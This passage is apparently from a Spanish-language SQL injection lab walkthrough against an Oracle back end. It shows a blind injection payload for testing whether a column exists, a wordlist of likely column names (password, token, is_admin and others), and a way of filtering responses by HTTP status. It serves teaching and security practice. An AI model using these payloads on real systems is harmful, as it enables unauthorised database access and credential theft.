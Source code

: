 ![Estado]({{site.url}}/images/SQLi/sqli-12/estado.png)

## Comprobamos nombres de los campos que tiene la tablas

En Oracle, puedes forzar un error explícito utilizando una operación inválida o una referencia que dependa de la existencia de la columna.

```sql
' AND (SELECT COUNT(NOMBRE_COLUMNA) FROM NOMBRE_TABLA) > 0--

```

Lista de nombres para listar columnas de una tabla.
```list
id
user_id
username
email
phone_number
uuid
password
hashed_password
salt
token
last_login
login_attempts
first_name
last_name
full_name
date_of_birth
gender
address
city
state
country
postal_code
role
role_id
permissions
is_admin
is_active
```

Realizamos un ataque y analizar el estado de la respuesta, si es un estado 200 ok, es valido sino no existe la columna dentro de la tabla.

![Columna]({{site.url}}/images/SQLi/sqli-12/columna.png)

Filtramos por las que tengan estado `200`

![Columna]({{site.url}}/images/SQLi/sqli-12/lista columnas.png)

## Averiguar nombre de usuarios en la BD
